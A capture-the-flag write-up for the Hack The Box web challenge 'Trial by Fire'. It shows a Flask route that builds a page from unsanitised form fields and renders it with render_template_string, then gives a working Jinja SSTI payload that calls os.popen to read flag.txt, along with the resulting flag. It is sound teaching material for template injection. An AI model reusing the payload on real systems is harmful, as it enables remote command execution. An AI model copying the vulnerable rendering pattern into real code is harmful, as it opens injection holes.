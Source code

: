 # Trial by Fire

{% hint style="info" %}
Category: Web

Difficulty: Very Easy
{% endhint %}

## Description

> As you ascend the treacherous slopes of the Flame Peaks, the scorching heat and shifting volcanic terrain test your endurance with every step. Rivers of molten lava carve fiery paths through the mountains, illuminating the night with an eerie crimson glow. The air is thick with ash, and the distant rumble of the earth warns of the danger that lies ahead. At the heart of this infernal landscape, a colossal Fire Drake awaits—a guardian of flame and fury, determined to judge those who dare trespass. With eyes like embers and scales hardened by centuries of heat, the Fire Drake does not attack blindly. Instead, it weaves illusions of fear, manifesting your deepest doubts and past failures. To reach the Emberstone, the legendary artifact hidden beyond its lair, you must prove your resilience, defying both the drake’s scorching onslaught and the mental trials it conjures. Stand firm, outwit its trickery, and strike with precision—only those with unyielding courage and strategic mastery will endure the Trial by Fire and claim their place among the legends of Eldoria.

## Required Knowledge

* Server Side Template Injection (SSTI)
* Docker Container

## Solve Walkthrough

The flag file location is not changed to root directory or somewhere else, it inside the app challenge directory. Basically, this logic behind the app is to play a game. The objective of the game is to **defeat a dragon** that have health **1337**. But, we can't defeat the dragon in a regular way, we've to find a vulnerability to defeat the dragon or at least to get the flag (not matter we win or not). So, I played this game a little bit after that I realize something that can be a vulnerability. Take a look at the image below.

<figure><img src="../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

Why it can be a vulnerability? As simple as I can manipulate the win/lose condition at there. See the route or logic behind the `/battle-report` url below.

{% code title="routes.py" lineNumbers="true" %}
```python
@web.route('/battle-report', methods=['POST'])
def battle_report():
    warrior_name = session.get("warrior_name", "Unknown Warrior")
    battle_duration = request.form.get('battle_duration', "0")

    stats = {
        'damage_dealt': request.form.get('damage_dealt', "0"),
        'damage_taken': request.form.get('damage_taken', "0"),
        'spells_cast': request.form.get('spells_cast', "0"),
        'turns_survived': request.form.get('turns_survived', "0"),
        'outcome': request.form.get('outcome', 'defeat')
    }

    REPORT_TEMPLATE = f"""
    <html>SSTI 
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Battle Report - The Flame Peaks</title>
        <link rel="icon" type="image/png" href="/static/images/favicon.png" />
        <link href="https://unpkg.com/nes.css@latest/css/nes.min.css" rel="stylesheet" />
        <link rel="stylesheet" href="/static/css/style.css">
    </head>
    <body>
        <div class="nes-container with-title is-dark battle-report">
            <p class="title">Battle Report</p>

            <div class="warrior-info">
                <i class="nes-icon is-large heart"></i>
                <p class="nes-text is-primary warrior-name">{warrior_name}</p>
            </div>

            <div class="report-stats">
                <div class="nes-container is-dark with-title stat-group">
                    <p class="title">Battle Statistics</p>
                    <p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>
                    <p>💔 Damage Taken: <span class="nes-text is-error">{stats['damage_taken']}</span></p>
                    <p>✨ Spells Cast: <span class="nes-text is-warning">{stats['spells_cast']}</span></p>
                    <p>⏱️ Turns Survived: <span class="nes-text is-primary">{stats['turns_survived']}</span></p>
                    <p>⚔️ Battle Duration: <span class="nes-text is-secondary">{float(battle_duration):.1f} seconds</span></p>
                </div>

                <div class="nes-container is-dark battle-outcome {stats['outcome']}">
                    <h2 class="nes-text is-primary">
                        {"🏆 Glorious Victory!" if stats['outcome'] == "victory" else "💀 Valiant Defeat"}
                    </h2>
                    <p class="nes-text">{random.choice(DRAGON_TAUNTS)}</p>
                </div>
            </div>

            <div class="report-actions nes-container is-dark">
                <a href="/flamedrake" class="nes-btn is-primary">⚔️ Challenge Again</a>
                <a href="/" class="nes-btn is-error">🏰 Return to Entrance</a>
            </div>
        </div>
    </body>
    </html>
    """

    return render_template_string(REPORT_TEMPLATE)
```
{% endcode %}

Notice that **only POST request is accepted**, so be careful when you intercept the request. The `stats` array contains **un-sanitized user input** and the function is return a `render_template_string` that can cause a SSTI vulnerability. But, how we can manipulate the POST request ? **Play a little bit and when you lose, you can intercept using burp suite**.

Here's the POC when I read the flag. Basically, this payload is to import the `os` and use `popen`  to cat the `flag.txt` .

```python
damage_dealt={{config.__class__.__init__.__globals__['os'].popen('cat+flag.txt').read()}}&damage_taken=100&spells_cast=2&turns_survived=3&outcome=defeat&battle_duration=18.116
```

<figure><img src="../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

Okay, now let's manipulate the POST request to `/battle-report`  in the remote target. Here's the POC:

<figure><img src="../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

Actually, you can see the SSTI vulnerability directly in the given source code, specifically in the `/challenges/application/templates/index.html` . As the result, in the index page, it will show `49` that represent of `7*7` .&#x20;

{% code title="index.html" lineNumbers="true" %}
```html
<body>
  <div class="home-container nes-container is-rounded">
    <h1 class="nes-text is-error">Welcome to the Flame Peaks</h1>
    <p class="nes-text">
      In a land of burning rivers and searing heat, the Fire Drake stands guard over the Emberstone. Many have sought its power; none have prevailed.
      <br><br>
      Legends speak of ancient template scrolls—arcane writings that twist fate when exploited. Hidden symbols may change everything.
      <br><br>
      Can you read the runes? Perhaps {{ 7 * 7 }} is the key. <!-- SSTI -->
    </p>
    
    <form action="/begin" method="POST" class="warrior-form nes-container is-rounded">
      <div class="form-group">
        <label for="warrior_name" class="nes-text is-error">What is your name, brave warrior?</label>
        <input type="text" id="warrior_name" name="warrior_name" class="nes-input" required placeholder="Enter your name..." maxlength="30" style="background-color: rgba(17, 24, 39, 0.95);">
      </div>
      <button type="submit" class="nes-btn is-error challenge-button">
        ⚔️ Challenge the Fire Drake
      </button>
    </form>
  </div>
</body>
```
{% endcode %}

You can notice in the opening of the website.

<figure><img src="../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

## Flag

<kbd>HTB{Fl4m3\_P34ks\_Tr14l\_Burn5\_Br1ght\_cce96f85ad54b396cdee745fbe91bf5b}</kbd>
